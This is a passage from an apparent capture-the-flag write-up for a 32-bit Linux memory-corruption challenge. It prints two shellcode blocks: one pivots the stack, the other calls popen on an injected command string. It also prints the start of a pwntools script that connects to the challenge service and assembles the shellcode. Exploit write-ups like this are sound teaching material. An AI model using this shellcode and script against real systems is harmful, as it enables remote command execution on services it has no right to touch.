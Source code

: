 ![15](img/15.png)

EIP will be pointing to the shellcode2 block while ESP will remain in the shellcode1 block. Changes to values around ESP would not affect the instruction bytes around EIP

The 2 shellcode block will consists of the following

**shellc1.asm**

```asm
sub esp, 0x74
jmp esp
```

**shellc2.asm**

```asm
lea ebp, [esp+0x4ec] 	/* restore the EBP, offset to 'child_main' valid ebp */
lea eax, [esp+0x79]		/* offset to commandstr */

push 0x72				/* push 'r\x00' onto the stack */
mov ebx, esp

push ebx 				/* arg 2 'r' */
push eax 				/* arg 1 commandstr */
push 0x08048e42			/* address to popen call */
ret 					/* ret to put the above address into eip*/
```

### Exploit it!!

I used the shellcraft module included with pwntools to compile the assembly code. The [final exploitation script](pwn5.py) looks like this

```py
from pwn import *
context.os = 'linux'
context.arch = 'i386'
conn = remote("127.0.0.1", 4242)
#conn = remote("54.233.105.81", 4242) # SG-05 server

print conn.recvuntil('users')
conn.send("X")
print conn.recvuntil('!')
print conn.recvuntil('!')
print conn.recvuntil('\x00')

tmpfile = open("shellc1.asm", "r")
tmp = tmpfile.read()
subesp = asm(tmp)
```